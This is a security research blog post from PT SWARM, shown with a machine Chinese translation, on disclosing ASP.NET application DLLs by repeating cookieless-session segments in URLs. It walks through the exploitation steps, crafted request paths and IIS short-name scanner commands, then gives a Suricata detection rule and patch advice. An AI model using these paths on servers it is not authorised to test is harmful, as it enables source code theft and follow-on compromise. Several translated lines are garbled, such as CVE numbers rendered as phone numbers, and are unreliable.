






# ASP.NET 应用程序中的源代码泄露 - PT SWARM --- Source Code Disclosure in ASP.NET apps – PT SWARM



Recently, I came across an interesting ASP.NET application. It appeared to be secure, but it accidentally revealed its source code. Later, I found out that the used method is applicable to disclose code of many other .NET web applications.  
最近，我遇到了一个有趣的 ASP.NET 应用程序。它看起来很安全，但它意外地泄露了源代码。后来，我发现所使用的方法适用于公开许多其他.NET Web 应用程序的代码。

Here are the details. If you just see an IIS or .NET app, this is for you.  
这是细节。如果你只是看到一个 IIS 或.NET 应用程序，这是给你的。

## Analyzing the App 分析 App

During an external penetration test, I found a web application. It consisted of two pages on different ports:  
在外部渗透测试中，我发现了一个 Web 应用程序。它由两个不同端口的页面组成：



Here is a Burp screenshot with relevant HTTP headers:  
下面是一个带有相关 HTTP 头的 Burp 截图：



HTTP headers of the 8444/tcp application  
8444/tcp 应用程序的 HTTP 标头

It looked like my application was written in C# on the ASP.NET platform, was functioning under IIS, and was protected by a WAF based on nginx.  
看起来我的应用程序是在 ASP.NET 平台上用 C# 编写的，在 IIS 下运行，并受到基于 nginx 的 WAF 的保护。

Knowing this was enough to bypass the 403 error:  
这就足以让你绕过 403 错误：



The content of the “/login.aspx” page after bypassing the WAF (via a cookieless session)  
绕过 WAF（通过无 cookie 会话）后“/login.aspx”页面的内容

After the bypass, I got nothing. There weren’t even any stylesheets present. I attempted to brute force every possible username and password, every possible path and parameter. All efforts were unsuccessful.  
搭桥手术后，我什么都没得到。甚至没有任何样式表。我试图暴力破解每一个可能的用户名和密码，每一个可能的路径和参数。所有的努力都没有成功。

Another boring web application? Not today!  
又一个无聊的 Web 应用程序？今天不行！

## Cookieless Sessions in ASP.NET  
ASP.NET 中的无 Cookie 会话

When you enable the ASP.NET feature in IIS, any page of the server starts accepting cookieless sessions.  
当您在 IIS 中启用 ASP.NET 功能时，服务器的任何页都将开始接受无 Cookie 会话。

The ASP.NET cookieless sessions, along with PHP’s and Java’s analogs, have always been used for WAF bypass, as we did, session fixation, XSS, and all kinds of other attacks.  
ASP.NET 的无 cookie 会话，沿着的 PHP 和 Java 的类似物，一直被用于 WAF 绕过，就像我们所做的那样，会话固定，XSS，和所有其他类型的攻击。

Here are different formats of these “cookieless sessions”:  
以下是这些“无 cookie 会话”的不同格式：

|     |     |
| --- | --- |
| **.NET Version .NET 版本** | **URI** |
| V1.0, V1.1 V1.0、V1.1 | /(XXXXXXXX)/ （XXXXVIII） |
| V2.0+ | /(S(XXXXXXXX))/ （S（XXXXO）） |
| V2.0+ | /(A(XXXXXXXX)F(YYYYYYYY))/  <br>/（阿（XXXXXXX）法（YYYYYY））/ |
| V2.0+ | …   |

Source: [https://learn.microsoft.com/en-us/previous-versions/dotnet/articles/aa479315(v=msdn.10)](https://learn.microsoft.com/en-us/previous-versions/dotnet/articles/aa479315(v=msdn.10))  
来源：https：//learn.microsoft.com/en-us/previous-versions/dotnet/articles/aa479315（v=msdn.10）

Furthermore, Soroush Dalili (a.k.a. [@irsdl](https://twitter.com/irsdl)) recently discovered something new in this area: [Cookieless DuoDrop: IIS Auth Bypass & App Pool Privesc in ASP.NET Framework (CVE-2023-36899 & CVE-2023-36560)](https://soroush.me/blog/2023/08/cookieless-duodrop-iis-auth-bypass-app-pool-privesc-in-asp-net-framework-cve-2023-36899/).  
此外，Soroush Dalili（又名：@irsdl）最近在这个领域发现了一些新的东西：Cookieless Duodrop：ASP.NET Framework 中的 IIS Auth Bypass 和 App Pool Privesc（CVE-2023-36899 & CVE-2023-36560）。

Namely, two security issues in .NET Framework were found and reported. Both were associated with the repetition of a cookieless pattern in the URI twice, potentially leading to a restriction bypass and privilege escalation.  
也就是说，发现并报告了.NET Framework 中的两个安全问题。两者都与 URI 中重复两次无 cookie 模式有关，可能导致绕过限制和特权升级。

Here are the POCs from Soroush Dalili’s article:  
以下是 Soroush Dalili 文章中的 POC：

|     |     |
| --- | --- |
| **CVE** | **PoC** |
| CVE-2023-36899 电话：+86-20 - 66899999 | /WebForm/(S(X))/prot/(S(X))ected/target1.aspx  <br>/WebForm/（S（X））/prot/（S（X））ected/target1.aspx  <br>/WebForm/(S(X))/b/(S(X))in/target2.aspx  <br>/WebForm/（S（X））/b/（S（X））in/target2.aspx |
| CVE-2023-36560 电话：+86-21 - 6666666 | /WebForm/pro/(S(X))tected/target1.aspx/(S(X))/  <br>/WebForm/pro/（S（X））tected/target1.aspx/（S（X））/  <br>/WebForm/b/(S(X))in/target2.aspx/(S(X))/  <br>/WebForm/b/（S（X））in/target2.aspx/（S（X））/ |

Keep in mind these POCs. At that moment, I wasn’t able to imagine any way to apply these POCs for my one-page applications.  
记住这些 POCs。在那一刻，我无法想象有任何方法可以将这些 POC 应用到我的单页应用程序中。

## Discovering Source Code Disclosure  
发现源代码泄露

I was playing with my websites once every two or three days. It all came to nothing. Just two pages, no username, and no password.  
我每两三天就玩一次我的网站。一切都没有结果。只有两页，没有用户名，也没有密码。

However, one day, this happened:  
然而，有一天，事情发生了：



In just one second, the DLL had appeared on my computer! It wasn’t corrupt, and there was a Remote Code Execution discovered inside!  
仅仅一秒钟，DLL 就出现在我的电脑上了！它没有被破坏，并且在里面发现了远程代码执行！

## Investigation 调查

After obtaining the RCE, I was able to access the target’s web.config file. Then, I reduced it to the minimum possible configuration:  
在获得 RCE 之后，我能够访问目标的 web.config 文件。然后，我将其减少到最小可能的配置：

```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <system.webServer>
    <modules runAllManagedModulesForAllRequests="true" />
  </system.webServer>
</configuration>
```

That was it. The runAllManagedModulesForAllRequests setting was the cause of our success.  
就是这样。runAllManagedModulesForAllRequests 设置是我们成功的原因。

## Scaling the POC 扩展 POC

It quickly became clear that the technique works on other servers. The setting runAllManagedModulesForAllRequests isn’t rare and I was able to download a few DLLs from different websites the same day.  
很快就清楚了，这项技术在其他服务器上也有效。设置 runAllManagedModulesForAllRequests 并不罕见，我能够在同一天从不同的网站下载一些 DLL。

The only thing I noticed is that it’s impossible to check the existence of the “/bin” directory:  
我注意到的唯一一件事是，无法检查“/bin”目录的存在：

```tcl
http://Y.Y.Y.Y/ - 200
http://Y.Y.Y.Y/bin - 404
http://Y.Y.Y.Y/bin/ - 404
http://Y.Y.Y.Y/bin/Navigator.dll - 404
http://Y.Y.Y.Y/(S(x))/b/(S(x))in  - 404
http://Y.Y.Y.Y/(S(x))/b/(S(x))in/ - 404
http://Y.Y.Y.Y/(S(x))/b/(S(x))in/Navigator.dll - 200
```

However, by applying IIS-ShortName-Scanner, you can not only check the existence of the “/bin” directory, but also discover its content:  
但是，通过应用 IIS-ShortName-Scanner，您不仅可以检查“/bin”目录的存在，还可以发现其内容：



Executing java -jar ./iis\_shortname\_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX\_ALLOCATION/'  
正在执行 java -jar。/iis\_shortname\_scanner.jar 20 8 'https：//X.X.X. X/bin：：$INDEX\_ALLOCATION/'

Both IIS-ShortName-Scanner and the “::$INDEX\_ALLOCATION” trick are attributed to Soroush Dalili.  
IIS-ShortName-Scanner 和“：：$INDEX\_ALLOCATION”技巧都归功于 Soroush Dalili。

## Full Exploitation Algorithm  
充分利用算法

Here’s a brief guide on how to check the server on the vulnerability.  
下面简单介绍一下如何检查服务器上的漏洞。

**1\.** Check if cookieless sessions are allowed.  
1\. 检查是否允许无 cookie 会话。

```bash
# If your application is in the main folder
/(S(X))/
/(Y(Z))/
/(G(AAA-BBB)D(CCC=DDD)E(0-1))/

# If your application is in a subfolder
/MyApp/(S(X))/
...
```

**2.** Optionally, use IIS-ShortName-Scanner. Note, its functionality doesn’t depend on whether cookieless sessions are enabled or not.  
2\. 也可以使用 IIS-ShortName-Scanner。注意，它的功能不依赖于是否启用无 cookie 会话。

```bash
java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX_ALLOCATION/'
java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/MyApp/bin::$INDEX_ALLOCATION/'
```

In addition to “/bin”, I recommend you to check other special .NET folders:  
除了“/bin”，我建议你检查其他特殊的.NET 文件夹：

```jboss-cli
/App_Code
/App_WebReferences
/App_GlobalResources
/App_LocalResources
/App_Data
/App_Themes
/App_Browsers
/Themes
/Views
/Models
/Controllers
```

**3.** Explore 404 page. 3\. 404 页面找不到了

For `/(S(x))/b/(S(x))in/App.dll` it should write something like `/bin/App.dll` or none in the output. If it’s `.../b/(S(x))in/...` on 404, this means the patches are installed.  
对于 `/(S(x))/b/(S(x))in/App.dll` ，它应该在输出中写入类似于 `/bin/App.dll` 或 none 的内容。如果是 404 上的 `.../b/(S(x))in/...` ，则表示已安装补丁。

**4\.** Try to read DLLs. It’s necessary to reconstruct complete filenames from shortened 8.3 format filenames.  
4\. 尝试读取 DLL。有必要从缩短的 8.3 格式文件名重建完整的文件名。

```bash
http://Y.Y.Y.Y/(S(x))/b/(S(x))in/MyApplicationFile.dll
http://Y.Y.Y.Y/MyApp/(S(x))/b/(S(x))in/MyApplicationFile.dll
```

The PDB files, if such exists, will not be accessible.  
PDB 文件（如果存在）将无法访问。

## Attack Detection 攻击检测

A big thank you to Kirill Shipulin of our blue team for preparing the Suricata rule:  
非常感谢我们蓝色团队的 Kirill Shipulin 准备了 Suricata 规则：

```css
alert http any any -> any any (msg: "ATTACK [PTsecurity] Cookieless string in ASP.NET"; flow: established, to_server; http.uri; content: "/("; fast_pattern; content: "))"; distance: 0; pcre: "/\/\([A-Z]\(.*?\)\)/"; classtype: attempted-admin; sid: 10009357; rev: 1;)
```

## Conclusion & Mitigations  
结论和缓解措施

**For security teams 安全团队**

Update your Microsoft IIS and .NET Framework to the latest versions. For Windows Server 2019 and .NET Framework 4.7, KB5034619 currently fixes the source disclosure.  
将 Microsoft IIS 和.NET Framework 更新到最新版本。对于 Windows Server 2019 和.NET Framework 4.7，KB 5034619 目前修复了源代码泄露。

For mitigating short name enumerations, run “`fsutil behavior set disable8dot3 1`” to disable 8.3 name creation. Next, reboot your system and run “`fsutil 8dot3name strip /s /v [PATH-TO-WEB-DIRETORY]`” to remove all existing 8.3 file names.  
为了减少短名称枚举，运行“ `fsutil behavior set disable8dot3 1` “以禁用 8.3 名称创建。接下来，重新启动系统并运行“ `fsutil 8dot3name strip /s /v [PATH-TO-WEB-DIRETORY]` “删除所有现有的 8.3 文件名。

**For pentesters and bughunters  
对于 pentesters 和 bughunters**

I would recommend checking for obvious things and tricks, including ones that should not work.  
我建议检查明显的东西和技巧，包括那些不应该工作的。

As an example, on a different project, my friend was able to download DLL files from the “/bin” directory directly, even though I have never seen this technique succeed.  
例如，在另一个项目中，我的朋友能够直接从“/bin”目录下载 DLL 文件，尽管我从未见过这种技术成功。

## References 引用

This article was based on the following materials:  
本文基于以下材料：

-   [Microsoft Short File Name Disclosure](https://soroush.me/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf), 2010–2012, Soroush Dalili  
    Microsoft Short File Name Disclosure，2010-2012，Soroush Dalili
-   [Microsoft Short File Name Disclosure in Microsoft IIS 10.0](https://raw.githubusercontent.com/irsdl/IIS-ShortName-Scanner/master/presentation/Steelcon-2023-Beyond_Microsoft_IIS_Short_File_Name_Disclosure.pdf), July 2023, Soroush Dalili  
    Microsoft IIS 10.0 中的 Microsoft 短文件名泄露，2023 年 7 月，Soroush Dalili
-   [IIS Short Name Scanner](https://github.com/irsdl/IIS-ShortName-Scanner/), 2012–2023, Soroush Dalili  
    IIS 短名称扫描器，2012-2023，Soroush Dalili
-   [Cookieless DuoDrop: IIS Auth Bypass & App Pool Privesc](https://soroush.me/blog/2023/08/cookieless-duodrop-iis-auth-bypass-app-pool-privesc-in-asp-net-framework-cve-2023-36899/), August 2023, Soroush Dalili  
    Cookieless Duodrop：IIS Auth Bypass & App Pool Privesc，2023 年 8 月，Soroush Dalili
-   [CVE-2023-36560](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-36560), 2023, Markus Wulftange ([@mwulftange](https://twitter.com/mwulftange))  
    CVE-2023-36560，2023，Markus Wulftange（@mwulftange）
-   [CVE-2023-36899](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-36899), 2023, Soroush Dalili  
    CVE-2023-36899，2023，Soroush Dalili

Feel free to write your thoughts about the article [on our X page](https://twitter.com/ptswarm). Follow [@ptswarm](https://twitter.com/ptswarm) or [@\_mohemiv](https://twitter.com/_mohemiv) so you don’t miss our future research and other publications.  
请随时在我们的 X 页面上写下您对这篇文章的想法。关注 @ptswarm 或 @\_mohemiv，这样你就不会错过我们未来的研究和其他出版物。
